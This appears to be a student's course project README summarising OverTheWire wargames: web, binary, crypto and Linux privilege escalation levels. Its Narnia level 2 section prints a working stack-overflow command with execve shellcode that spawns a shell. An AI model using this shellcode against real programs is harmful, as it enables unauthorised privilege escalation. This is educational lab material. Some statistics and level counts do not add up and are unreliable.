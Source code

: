 # Overthewire

## Project Overview and Background

This project entailed completing four security wargames on the OverTheWire platform:

1. Natas (34 levels): Web application security (SQLi/XSS/file inclusion)

2. Narnia (7 levels): Binary exploitation (buffer overflow/environment variable injection)

3. Krypton (7 levels): Cryptanalysis (ROT13/Vigenère/stream cipher)

4. Leviathan (7 levels): Linux privilege escalation (symlink abuse/session hijacking)

### Technical Context

According to the 2024 OWASP Top 10 Report, 75% of web vulnerabilities stem from input validation failures (Natas focus). MITRE ATT&CK framework confirms binary vulnerabilities (Narnia focus) remain primary APT entry points. This project validates core course concepts through practical exploitation.

## Key Achievements

### Natas: Web Exploitation

1. HTTP header injection (L4)
2. PHP session fixation (L18-19)
3. File upload bypass (L12-13)
4. Referrer attack (L4)

### Narnia: Binary Security

1. Custom shellcode (L1)
2. Stack offset calculation (L2/4)
3. Symlink privilege escape (L3)

### Krypton: Cryptanalysis

1. Vigenère known-plaintext (L4)
2. Stream cipher CPA (L6)

### Leviathan: System Security

1. Hardlink abuse (L2)
2. SUID exploitation (L5)

## Breakthrough

### Precision Stack Overflow (Narnia L2)

1. Calculated 128-byte offset via GDB, crafted setreuid() shellcode for privilege retention:

```bash
$ ./narnia2 $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\x28\xd5\xff\xff")
```

2. Stream Cipher Break (Krypton L6)
   Implemented chosen-plaintext attack (CPA) to derive keystream:

```python
ciphertext = 'PNUKLYLWRQKGKBE'
key = 'EICTDGYIYZKTHNSIRFXYCPFUEOCKRN'

for c, k in zip(ciphertext, key):
    p = ord('A') + ((ord(c) - ord(k)) % 26)
    print(chr(p), end='')

print()
```

## Methodology and Problem Resolution

### Time Allocation

```mermaid
pie
    title Time Distribution
    "Binary Exploitation" : 12
    "Web Vulnerabilities" : 10
    "Cryptanalysis" : 5
    "Documentation" : 3
```

### Critical Challenges & Solutions

1. Natas blind SQLi inefficiency (L15)  
   Since the community edition of Burp Suite does not allow multiple attacks to be performed simultaneously, it is very inefficient. So I wrote a script that runs multiple identical scripts simultaneously to try different port ranges, greatly improving efficiency.
2. Leviathan `gdb` replaces brute-force (L6)
   I use static ELF analysis to locate password check instruction. [Leviathan/Writeups](./Leviathan/Writeups.md)

## Reflection

### Technical Insights

1. Theory-Practice Convergence:
   Krypton L4 Vigenère crack validated Kerckhoffs' Principle - security should rely solely on keys, not algorithm secrecy
2. Key Breakthrough:
   Natas L11 XOR encryption reverse-engineering (code) exposed critical key reuse vulnerability

### Skill Gaps & Improvement Plan

1. Assembly Deficiency: Over-relied on pattern-matching in Narnia exploits
   Action: Studying Practical Binary Analysis for disassembly mastery
2. Cryptography Math Gap: Suboptimal stream cipher attacks
   Action: Enrolled in Coursera's Number Theory for Cryptography

## Conclusion and future development

### Project Value

Completion of 42 levels demonstrates core competency attainment:

1. Integrated web/binary/crypto attack chains
2. Theory-to-production vulnerability analysis (avg. 33 min/level)

### Optimization Roadmap

1. Develop unified vulnerability scanner integrating all techniques
2. Build Dockerized lab environments for educational use
3. Submit 2 vulnerability patches to OverTheWire

## Appendix

1. [Github - COMP6841 Project](https://github.com/bingo-h/comp6841-project)
